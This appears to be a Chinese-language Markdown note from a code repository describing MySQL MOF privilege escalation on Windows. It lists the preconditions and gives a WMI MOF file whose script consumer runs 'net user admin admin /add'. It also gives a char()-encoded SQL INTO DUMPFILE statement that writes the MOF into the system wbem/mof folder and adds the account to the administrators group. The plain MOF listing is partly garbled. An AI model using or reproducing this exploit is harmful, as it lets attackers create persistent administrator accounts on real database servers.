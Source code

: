 1. secure-file-priv 为空.
2. mysql高权运行.

#### 步骤
1. 
   创建mof文件


   ```vb
   pace("\.rootsubscription")
   
   instance of **EventFilter as $EventFilter{    EventNamespace = "RootCimv2";    Name  = "filtP2";    Query = "Select * From **InstanceModificationEvent "
               "Where TargetInstance Isa "Win32_LocalTime" "
               "And TargetInstance.Second = 5";
       QueryLanguage = "WQL";
   };
   
   instance of ActiveScriptEventConsumer as $Consumer
   {
       Name = "consPCSV2";
       ScriptingEngine = "JScript";
       ScriptText =
       "var WSH = new ActiveXObject("WScript.Shell")nWSH.run("net.exe user admin admin /add")";
   };
   
   instance of __FilterToConsumerBinding
   {
       Consumer   = $Consumer;
       Filter = $EventFilter;
   };
   ```

2. 手动上传到目标导入`select load_file('mof file') into dumpfile 'c:/windows/system32/wbem/mof/nullevt.mof`到Mof目录.
   或者使用select 写入

   ```mysql
   select char(35,112,114,97,103,109,97,32,110,97,109,101,115,112,97,99,101,40,34,92,92,92,92,46,92,92,114,111,111,116,92,92,115,117,98,115,99,114,105,112,116,105,111,110,34,41,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,69,118,101,110,116,70,105,108,116,101,114,32,97,115,32,36,69,118,101,110,116,70,105,108,116,101,114,13,10,123,13,10,32,32,32,32,69,118,101,110,116,78,97,109,101,115,112,97,99,101,32,61,32,34,82,111,111,116,92,92,67,105,109,118,50,34,59,13,10,32,32,32,32,78,97,109,101,32,32,61,32,34,102,105,108,116,80,50,34,59,13,10,32,32,32,32,81,117,101,114,121,32,61,32,34,83,101,108,101,99,116,32,42,32,70,114,111,109,32,95,95,73,110,115,116,97,110,99,101,77,111,100,105,102,105,99,97,116,105,111,110,69,118,101,110,116,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,87,104,101,114,101,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,32,73,115,97,32,92,34,87,105,110,51,50,95,76,111,99,97,108,84,105,109,101,92,34,32,34,13,10,32,32,32,32,32,32,32,32,32,32,32,32,34,65,110,100,32,84,97,114,103,101,116,73,110,115,116,97,110,99,101,46,83,101,99,111,110,100,32,61,32,53,34,59,13,10,32,32,32,32,81,117,101,114,121,76,97,110,103,117,97,103,101,32,61,32,34,87,81,76,34,59,13,10,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,65,99,116,105,118,101,83,99,114,105,112,116,69,118,101,110,116,67,111,110,115,117,109,101,114,32,97,115,32,36,67,111,110,115,117,109,101,114,13,10,123,13,10,32,32,32,32,78,97,109,101,32,61,32,34,99,111,110,115,80,67,83,86,50,34,59,13,10,32,32,32,32,83,99,114,105,112,116,105,110,103,69,110,103,105,110,101,32,61,32,34,74,83,99,114,105,112,116,34,59,13,10,32,32,32,32,83,99,114,105,112,116,84,101,120,116,32,61,13,10,32,32,32,32,34,118,97,114,32,87,83,72,32,61,32,110,101,119,32,65,99,116,105,118,101,88,79,98,106,101,99,116,40,92,34,87,83,99,114,105,112,116,46,83,104,101,108,108,92,34,41,92,110,87,83,72,46,114,117,110,40,92,34,110,101,116,46,101,120,101,32,108,111,99,97,108,103,114,111,117,112,32,97,100,109,105,110,105,115,116,114,97,116,111,114,115,32,97,100,109,105,110,32,47,97,100,100,92,34,41,34,59,13,10,32,125,59,13,10,13,10,105,110,115,116,97,110,99,101,32,111,102,32,95,95,70,105,108,116,101,114,84,111,67,111,110,115,117,109,101,114,66,105,110,100,105,110,103,13,10,123,13,10,32,32,32,32,67,111,110,115,117,109,101,114,32,32,32,61,32,36,67,111,110,115,117,109,101,114,59,13,10,32,32,32,32,70,105,108,116,101,114,32,61,32,36,69,118,101,110,116,70,105,108,116,101,114,59,13,10,125,59) into dumpfile 'c:/Windows/system32/wbem/mof/nullevt.mof';
   ```
